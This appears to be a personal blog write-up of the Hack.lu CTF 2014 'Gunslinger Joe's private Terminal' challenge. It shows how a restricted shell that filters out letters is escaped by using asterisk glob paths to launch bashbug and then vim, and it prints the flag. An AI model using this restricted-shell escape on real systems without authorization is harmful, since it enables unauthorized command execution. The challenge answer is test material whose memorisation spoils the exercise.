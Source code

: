```yaml
---
layout: post
title: 'Hack.lu CTF 2014: Gunslinger Joe’s private Terminal Writeup'
category: memo
slug: gunslinger-joes-private-terminal-writeup
---
```

First time of my life I solved a problem in a real CTF! Though it is a pretty
easy one, it means something to me.

## Problem Description

In the Hack.lu CTF website, there are some description about "Gunslinger Joe's
private Terminal":

```text
Gunslinger Joe's private Terminal
by cutz (Misc)
50 (+20) Points
Gunslinger Joe has a pretty bad memory and always forgets the password for his
private terminals! That's why he always uses his username as password but also
makes sure that absolutely no one else who knows his name can interact with his
secure terminal. Wouldn't it be super embarrassing for him to prove him wrong?

SSH: gunslinger_joe@wildwildweb.fluxfingers.net
PORT: 1403
```

According to the description above, Gunslinger Joe's SSH account and password
are both "gunslinger_joe". So let's connect to the SSH server:

```bash
$ ssh wildwildweb.fluxfingers.net -l gunslinger_joe -p 1403
gunslinger_joe@wildwildweb.fluxfingers.net's password:

           ,'-',
          :-----:
      (''' , - , ''')
      \   ' .  , `  /
       \  '   ^  ? /
        \ `   -  ,'
         `j_ _,'       Gunslinger Joe's
    ,- -`\ \  /f        Private Terminal
  ,-      \_\/_/'-
 ,                 `,
 ,          Joe      ,
      /\          \
|    /             \   ',
,   f  :           :`,  ,
<...\  ,           : ,- '
\,,,,\ ;           : j  '
 \    \            :/^^^^'
  \    \            ; ''':
    \   -,         -`.../
     '    - -,`,--`
      \_._'-- '---:

$ ls
$ whoami
$ ls -l
: -: command not found
```

Something weird have just happened... It seems that the shell filtered out all
the alphabetic characters. However, the "FLAG" showed up...

```bash
$ *
: ./FLAG: Permission denied
```

Apparently, the file FLAG does not have a attribute of execution so the shell
told us it cannot execute the file FLAG. Anyway, using asterisk could reveal
some useful information. Then try it under the root directory.

```bash
$ /*
: /bin: Is a directory
```

To conclude, with this kind of input (asterisk), the shell will want to execute
the very first file in the directory specified. So let's see what is the first
executable in the `/bin`.

```bash
/*/*
```

Oops! WTF! It seems that the file `/bin/bashbug` has been executed. And we
finally got an editor, which is `vim`.

```text
From: gunslinger_joe
To: ../../bin/bunzip2
Subject: [50 character or so descriptive subject here (for reference)]

Configuration Information [Automatically generated, do not change]:
Machine: x86_64
OS: linux-gnu
Compiler: gcc
Compilation CFLAGS:  -DPROGRAM='bash' -DCONF_HOSTTYPE='x86_64' -DCONF
OSTYPE='linux-gnu' -DCONF_MACHTYPE='x86_64-unknown-linux-gnu'
-DCONF_VENDOR='unknown' -DLOCALEDIR='//share/locale' -DPACKAGE='bash'
-DSHELL -DHAVE_CONFIG_H   -I.  -I. -I./include -I./lib   -g -O2
uname output: Linux terminal 3.13.0-37-generic #64-Ubuntu SMP Mon Sep 22
21:28:38 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
Machine Type: x86_64-unknown-linux-gnu

Bash Version: 4.3
Patch Level: 30
Release Status: release

Description:
        [Detailed description of the problem, suggestion, or complaint.]

Repeat-By:
        [Describe the sequence of events that causes the problem
        to occur.]

Fix:
        [Description of how to fix the problem.  If you don't know a
        fix for the problem, don't include this section.]
```

Gods be good, we all know that anyone can execute any commands in `vim` using
`:! <command>`. So I tried `:! cat FLAG`. But the system told me there was
no more resources to fork another process to do the work. Where there is a
will, there is a way. Using the tab page feature provided by `vim` could do
the work! Because `vim` will not spawn a new process to handle the new tab
page.

## Flag

```text
flag{joe_thought_youd_suck_at_bash}
```
